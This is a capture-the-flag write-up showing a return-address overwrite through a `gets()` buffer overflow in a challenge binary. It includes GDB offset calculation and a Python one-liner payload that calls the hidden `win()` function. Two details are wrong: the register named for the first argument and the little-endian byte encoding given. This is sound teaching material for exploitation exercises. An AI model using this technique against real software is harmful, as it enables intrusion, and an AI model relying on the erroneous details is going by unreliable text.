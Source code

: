 # Challenge

**Echo** is an example of [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) exploit based on buffer overflow in the program.
It uses an unsafe form of `gets()` function, which keeps buffering user input until it finds a line ending symbol (`\n`).

# Solution

## Analysis

Using [Ghidra](https://ghidra-sre.org) to disassemble the provided binary first. Notice the `win()` function, which prints the contents of `flag.txt`. However, there is no call to this function in the program. The goal of this challenge is to trick the program into calling `win()` function.

![main function](EchoMain.png) ![win function](EchoWin.png)

In `main()`, the destination buffer argument to `gets()` is an array of `char` with length of 128. As mentioned above, `gets()` keeps reading from standard input until it finds a line ending symbol ('\n' or `0x0A` ASCII code point). If the user input exceeds 128 characters, it will overflow the allocated memory space. Here, the buffer is a **local** variable, so it is placed on stack. By overflowing the buffer, an attacker may modify the stack content, including *return address* for `main()`. By changing it to the address of `win()`, the attacker will capture the flag.

One important condition for the success of such attack is to reliably determine the address of `win()`. In this case, the binary is not a Position-Independent Executable (PIE), which means that address of `win()` does not change between executions. It will always be `0x0000000000401216`, as shown below.

```
% file ./echo
./echo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ba71fb7825c88b04e13afe6dcc11ba9113394f12, for GNU/Linux 3.2.0, not stripped

% nm ./echo | grep win
0000000000401216 T win
```

## Exploit

Use GDB to determine the offset between the input buffer, and the return address. This will help to craft the payload.

Let's check the `main` disassembly and set breakpoints at key instructions as follows:
1. Entry to `main`. At this breakpoint, value of RSP is the address of stack entry, which contains the return address for `main()`.
2. Before call to `gets`. Per [x86-64 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI), the first argument is stored in RSI register.

```
% gdb ./echo
<...>

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./echo...
(No debugging symbols found in ./echo)
(gdb) x/20i *main
   0x4012b7 <main>:     endbr64
   0x4012bb <main+4>:   push   %rbp
   0x4012bc <main+5>:   mov    %rsp,%rbp
   0x4012bf <main+8>:   add    $0xffffffffffffff80,%rsp
   0x4012c3 <main+12>:  mov    $0x0,%eax
   0x4012c8 <main+17>:  call   0x40128e <init>
   0x4012cd <main+22>:  lea    0xd94(%rip),%rax        # 0x402068
   0x4012d4 <main+29>:  mov    %rax,%rdi
   0x4012d7 <main+32>:  call   0x4010c0 <puts@plt>
   0x4012dc <main+37>:  lea    -0x80(%rbp),%rax
   0x4012e0 <main+41>:  mov    %rax,%rdi
   0x4012e3 <main+44>:  mov    $0x0,%eax
   0x4012e8 <main+49>:  call   0x4010f0 <gets@plt>
   0x4012ed <main+54>:  lea    -0x80(%rbp),%rax
   0x4012f1 <main+58>:  mov    %rax,%rdi
   0x4012f4 <main+61>:  call   0x4010c0 <puts@plt>
   0x4012f9 <main+66>:  mov    $0x0,%eax
   0x4012fe <main+71>:  leave
   0x4012ff <main+72>:  ret
   0x401300 <_fini>:    endbr64
(gdb) br *main
Breakpoint 1 at 0x4012b7
(gdb) br *main+49
Breakpoint 2 at 0x4012e8
(gdb) r
<...>

Breakpoint 1, 0x00000000004012b7 in main ()
(gdb) p/x $rsp
$1 = 0x7fffffffe0e8
(gdb) c
Continuing.
Give me some text and I'll echo it back to you:

Breakpoint 2, 0x00000000004012e8 in main ()
(gdb) p/x $rdi
$2 = 0x7fffffffe060
```

Subtracting `$2` from `$1` we get an offset of 136 bytes. The payload should include 136 random letters, followed by the target function address. Since x86 is little-endian, an address must be encoded "right-to-left" for byte input i.e. `0x0000000000401216 = 16 12 49 00 00 00 00 00`.

# Final

```
% python3 -c "import sys, struct; sys.stdout.buffer.write(b'a' * 136 + struct.pack('<Q', 0x0000000000401216))" | ./echo
Give me some text and I'll echo it back to you:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@
flag{myflag}
Segmentation fault (core dumped)
```
